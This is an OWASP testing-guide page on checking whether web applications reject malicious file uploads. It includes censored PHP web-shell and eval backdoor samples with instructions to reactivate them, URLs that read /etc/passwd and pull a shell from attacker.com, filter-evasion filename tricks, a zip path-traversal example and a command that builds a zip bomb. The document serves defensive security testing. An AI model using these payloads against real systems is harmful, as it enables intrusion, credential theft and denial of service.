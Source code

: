# Test Upload of Malicious Files

|ID               |
|-----------------|
|WSTG-BUSL-09|

## Summary

Many application’s business processes allow for the upload of data/information. We regularly check the validity and security of text but accepting files can introduce even more risk. To reduce the risk we may only accept certain file extensions, but attackers are able to encapsulate malicious code into inert file types. Testing for malicious files verifies that the application/system is able to correctly protect against attackers uploading malicious files.

Vulnerabilities related to the uploading of malicious files is unique in that these “malicious” files can easily be rejected through including business logic that will scan files during the upload process and reject those perceived as malicious. Additionally, this is different from uploading unexpected files in that while the file type may be accepted the file may still be malicious to the system.

Finally, “malicious” means different things to different systems, for example Malicious files that may exploit SQL server vulnerabilities may not be considered a “malicious” to a main frame flat file environment.

The application may allow the upload of malicious files that include exploits or shellcode without submitting them to malicious file scanning. Malicious files could be detected and stopped at various points of the application architecture such as: IPS/IDS, application server anti-virus software or anti-virus scanning by application as files are uploaded (perhaps offloading the scanning using SCAP).

## Example

Suppose a picture sharing application allows users to upload their `.gif` or `.jpg` graphic files to the web site. What if an attacker is able to upload a PHP shell, or exe file, or virus? The attacker may then upload the file that may be saved on the system and the virus may spread itself or through remote processes exes or shell code can be executed.

## How to Test

### Generic Testing Method

- Review the project documentation and use exploratory testing looking at the application/system to identify what constitutes and “malicious” file in your environment.
- Develop or acquire a known “malicious” file. An [EICAR anti-malware test file](https://2016.eicar.org/85-0-Download.html) can be used as harmless, but widely detected by antivirus software.
- Try to upload the malicious file to the application/system and verify that it is correctly rejected.
- If multiple files can be uploaded at once, there must be tests in place to verify that each file is properly evaluated.

### Exploit Payload

- Using the Metasploit payload generation functionality generates a shellcode as a Windows executable using the Metasploit “msfpayload” command.
- Submit the executable via the application’s upload functionality and see if it is accepted or properly rejected.

### Malicious File

- Develop or create a file that should fail the application malware detection process. There are many available on the Internet such as ducklin.htm or ducklin-html.htm.
- Submit the executable via the application’s upload functionality and see if it is accepted or properly rejected.

[Intended Use - EICAR](https://2016.eicar.org/86-0-Intended-use.html)

### WebShell Backdoor

For example upload the `WebShell-backdoor.php` to the target victim site.

```php
<?php
    if(isset($_REQUEST['rq'])){
        echo "<pre>";
        $rq= ($_REQUEST['rq']);
        /* Replace CENSORED with system ($rq) to activate the sample */
        CENSORED;
        echo "</pre>";
        die;
    }
?>
```

Once it's uploaded, the testers/hackers may get the password by visiting the URL below.

`http://TargetVictimSite.com/WebShell-backdoor.php?rq=cat+/etc/passwd`

or it may execute by remote file injection as below.

`http://TargetVictimSite.com/File.php?include=http://attacker.com/WebShell-backdoor.php`

Other PHP example:

```php
<?php @CENSORED($_POST['password']);?>
```

> Replace @CENSORED with @eval

### Invalid File

- Set up the intercepting proxy to capture the “valid” request for an accepted file.
- Send an “invalid” request through with a valid/acceptable file extension and see if the request is accepted or properly rejected.

### Source Code Review

When there is file upload feature supported, the following API/methods are common to be found in the source code.

- Java: `new file`, `import`, `upload`, `getFileName`, `Download`, `getOutputString`
- C/C++: `open`, `fopen`
- PHP: `move_uploaded_file()`, `Readfile`, `file_put_contents()`, `file()`, `parse_ini_file()`, `copy()`, `fopen()`, `include()`, `require()`

### Evasion of the Filter

The following techniques may be used to bypass the website file upload checking rules and filters, particularly if they are written using a blacklisting approach:

- Change the value of `Content-Type` as `image/jpeg` in HTTP request.
- Change the extensions to a less common extension, such as `file.php5`, `file.shtml`, `file.asa`, `file.jsp`, `file.jspx`, `file.aspx`, `file.asp`, `file.phtml`, `file.cshtml`
- Change the capitalisation of the extension, such as `file.PhP` or `file.AspX`
- Using special trailing characters such as spaces, dots or null characters such as `file.asp...`, `file.php;jpg`, `file.asp%00.jpg`, `1.jpg%00.php`
- In old versions of IIS 6, if the filename is `file.asp;file.jpg`, the file may be executed as `file.asp`:
- In old or badly configured versions of nginx, uploading a file as `test.jpg/x.php` may allow it to be executed as `x.php`.

### Zip Files Path

One Zip file may contain the malicious PHP with target purpose path such as `..\\..\\..\\..\\hacker.php`. If the website doesn't check the unzip target path, the hacker.php may unzip to the specified path.

### Zip Bombs

A [Zip bomb](https://en.wikipedia.org/wiki/Zip_bomb) (more generally known as a decompression bomb) is an archive file that contains a large volume of data. It's intended to cause a denial of service by exhausting the disk space or memory of the target system that tries to extract the archive. Note that although the Zip format is the most example of this, other formats are also affected, including gzip (which is frequently used to compress data in transit).

At its simplest level, a Zip bomb can be created by compressing a large file consisting of a single character. The example below shows how to create a 1MB file that will decompress to 1GB:

```bash
dd if=/dev/zero bs=1M count=1024 | zip -9 > bomb.zip
```

There are a number of methods that can be used to achieve much higher compression ratios, including multiple levels of compression, [abusing the Zip format](https://www.bamsoftware.com/hacks/zipbomb/) and [quines](https://research.swtch.com/zip) (which are archives that contain a copy of themselves, causing infinite recursion).

A successful Zip bomb attack will result in a denial of service, and can also lead to increased costs if an auto-scaling cloud platform is used. **Do not carry out this kind of attack unless you have considered these risks and have written approval to do so.**

## Related Test Cases

- [Test File Extensions Handling for Sensitive Information](../02-Configuration_and_Deployment_Management_Testing/03-Test_File_Extensions_Handling_for_Sensitive_Information.md)
- [Test Upload of Unexpected File Types](08-Test_Upload_of_Unexpected_File_Types.md)

## Tools

- Metasploit's payload generation functionality
- Intercepting proxy

## References

- [OWASP - Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [Why File Upload Forms are a Major Security Threat](https://www.acunetix.com/websitesecurity/upload-forms-threat/)
- [Overview of Malicious File Upload Attacks](http://securitymecca.com/article/overview-of-malicious-file-upload-attacks/)
- [8 Basic Rules to Implement Secure File Uploads](https://software-security.sans.org/blog/2009/12/28/8-basic-rules-to-implement-secure-file-uploads)
- [Stop people uploading malicious PHP files via forms](https://stackoverflow.com/questions/602539/stop-people-uploading-malicious-php-files-via-forms)
- [How to Tell if a File is Malicious](https://www.techsupportalert.com/content/how-tell-if-file-malicious.htm)
- [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)
- [Implementing Secure File Upload](https://infosecauditor.wordpress.com/tag/malicious-file-upload/)
- [Metasploit Generating Payloads](https://www.offensive-security.com/metasploit-unleashed/Generating_Payloads)

## Remediation

While safeguards such as blacklisting or whitelisting of file extensions, using “Content-Type” from the header, or using a file type recognizer may not always be protections against this type of vulnerability. Every application that accepts files from users must have a mechanism to verify that the uploaded file does not contain malicious code. Uploaded files should never be stored where the users or attackers can directly access them.
